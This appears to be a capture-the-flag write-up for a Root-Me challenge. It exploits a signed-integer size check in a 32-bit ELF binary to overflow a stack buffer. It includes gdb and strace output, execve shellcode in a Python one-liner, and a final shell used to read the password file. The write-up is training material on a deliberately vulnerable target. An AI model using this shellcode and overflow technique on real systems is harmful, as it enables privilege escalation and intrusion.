 # ELF x86 - Stack buffer and integer overflow
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-and-integer-overflow
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch11@challenge02.root-me.org    
Username	app-systeme-ch11
Password	app-systeme-ch11
```
After looking a bit at the source code (and the title name), one can see a vulnerability in the following code:

```c
int size;  

if(read(fd, &size, sizeof(int)) != sizeof(int))
{
  printf("[-] File too short.\n");
  exit(0);
}
if(size >= BUFFER)
{
  printf("[-] Path too long.\n");
  exit(0);
}
```
The vulnerability is the signing of the variable _size_. Because it's a signed int variable, 0xffffffff equals to -1.<br>
Therefore, if an attacker (us) specifies a file with 0xffffffff as the first 4 bytes, he'll be able to read and write 0xffffffff bytes (which is more than enough to overflow the 128 bytes buffer).<br><br>

So let's craft a file that will look like the following:
```
   +------------+---------+-----------+-------------------+--------------------------+
   | 0xffffffff | "/" (*) | SHELLCODE | JUNK for overflow | address of the shellcode |
   +------------+---------+-----------+-------------------+--------------------------+
   
   (*) For passing the if at line 35.
```
With a bit of guessing, one can find out the the offset to the **eip** in stack is 140 bytes after the "/" character.
So out exploit should look like the following:
```
   +------------+---------+--------------------+--------------------------------+--------------------------+
   | 0xffffffff | "/" (*) | 28 bytes SHELLCODE | 112 bytes of JUNK for overflow | address of the shellcode |
   +------------+---------+--------------------+--------------------------------+--------------------------+
   
   (*) For passing the if at line 35.
```
Now let's find out the address to the shellcode. According to gdb:
```gdb
(gdb) break *0x08048612
Breakpoint 1 at 0x8048612: file binary11.c, line 33.
(gdb) run /tmp/badfile
Starting program: /challenge/app-systeme/ch11/ch11 /tmp/badfile

Breakpoint 1, 0x08048612 in read_file (fd=3) at binary11.c:33
33	binary11.c: No such file or directory.
(gdb) info reg
eax            0xbffffabf	-1073743169
ecx            0xbffffab8	-1073743176
edx            0x4	4
ebx            0x80	128
esp            0xbffffaa0	0xbffffaa0
ebp            0xbffffb48	0xbffffb48
esi            0x0	0
edi            0xbffffb40	-1073743040
eip            0x8048612	0x8048612 <read_file+221>
eflags         0x282	[ SF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
The first byte '/' is read into 0xbffffabf. So the shellcode is probably at 0xbffffac0 right? Well, apparently not:
```sh
app-systeme-ch11@challenge02:~$ python -c "print '\xff\xff\xff\xff' + '/' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A'*117 + '\xc0\xfa\xff\xbf' " > /tmp/badfile
app-systeme-ch11@challenge02:~$ ./ch11 /tmp/badfile
[+] The pathname is : /1�Ph//shh/bin��PS���
                                           AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����

Segmentation fault
app-systeme-ch11@challenge02:~$ strace ./ch11 /tmp/badfile
[...snip...]
open("/tmp/badfile", O_RDONLY)          = 3
read(3, "\377\377\377\377", 4)          = 4
read(3, "/", 1)                         = 1
read(3, "1", 1)                         = 1
[...snip...]
write(1, "[+] The pathname is : /1\300Ph//shh"..., 168[+] The pathname is : /1�Ph//shh/bin��PS���
                                                                                                 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
) = 168
write(1, "\n", 1
)                       = 1
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xfadf08ad} ---
+++ killed by SIGSEGV +++
Segmentation fault
```
It happens because the addresses are different between inside and outside of gdb (someone told me it's because the additional environment variables gdb sets).<br>
So to come around it, and find the actual address of the shellcode outside gdb, one can use the _-e_ switch of the **strace** tool.<br>
The _-e_ switch enables one to set an expression which will affect the tool's output. For example, for seeing the second argument of **read** as an address instead of the string.<br>
So to find out the shellcode's address, one can use "-e raw=read" and see the following output:
```sh
app-systeme-ch11@challenge02:~$ strace -e raw=read ./ch11 /tmp/badfile
[...snip...]
open("/tmp/badfile", O_RDONLY)          = 3
read(0x3, 0xbffffad8, 0x4)              = 0x4
read(0x3, 0xbffffadf, 0x1)              = 0x1
read(0x3, 0xbffffae0, 0x1)              = 0x1
[...snip...]
write(1, "[+] The pathname is : /1\300Ph//shh"..., 168[+] The pathname is : /1�Ph//shh/bin��PS���
                                                                                                 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
) = 168
write(1, "\n", 1
)                       = 1
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xfadf08ad} ---
+++ killed by SIGSEGV +++
Segmentation fault
```
It looks like the address of the shellcode is 0xbffffae0 and not 0xbffffac0.<br> 
Once changing it, one can get the following output:
```sh
app-systeme-ch11@challenge02:~$ python -c "print '\xff\xff\xff\xff' + '/' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A'*117 + '\xe0\xfa\xff\xbf' " > /tmp/badfile
app-systeme-ch11@challenge02:~$ ./ch11 /tmp/badfile
[+] The pathname is : /1�Ph//shh/bin��PS���
                                           AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����

$ id
uid=1111(app-systeme-ch11) gid=1111(app-systeme-ch11) euid=1211(app-systeme-ch11-cracked) groups=1211(app-systeme-ch11-cracked),100(users),1111(app-systeme-ch11)
$ cat .passwd
<censored>
```

